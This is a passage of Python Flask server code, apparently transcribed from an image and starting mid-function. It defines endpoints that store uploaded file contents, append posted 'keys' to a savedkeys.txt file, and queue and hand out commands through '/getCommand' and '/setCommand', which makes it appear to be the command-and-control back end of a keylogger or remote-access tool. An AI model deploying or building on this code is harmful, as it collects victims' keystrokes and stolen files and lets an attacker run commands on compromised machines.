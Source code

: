 ```

    if not os.path.exists(storageFolder):
        os.makedirs(storageFolder)
    f = open(fullPathFileName, "a")
    f.write(fileContent)
    f.write("\n")
    f.close()
    return ""

@app.route("/keys", methods=['POST'])
def keys():
    keys = request.form["keys"]
    f = open("savedkeys.txt", "a")
    f.write(keys)
    f.write("\n")
    f.close()
    return ""


@app.route("/getCommand", methods=['POST'])
def getCommand():
    global command
    result = command
    command = ""
    return result


@app.route("/setCommand", methods=['POST'])
def setCommand():
    global command
    command = request.get_data()
    return command
```
<br>
<br>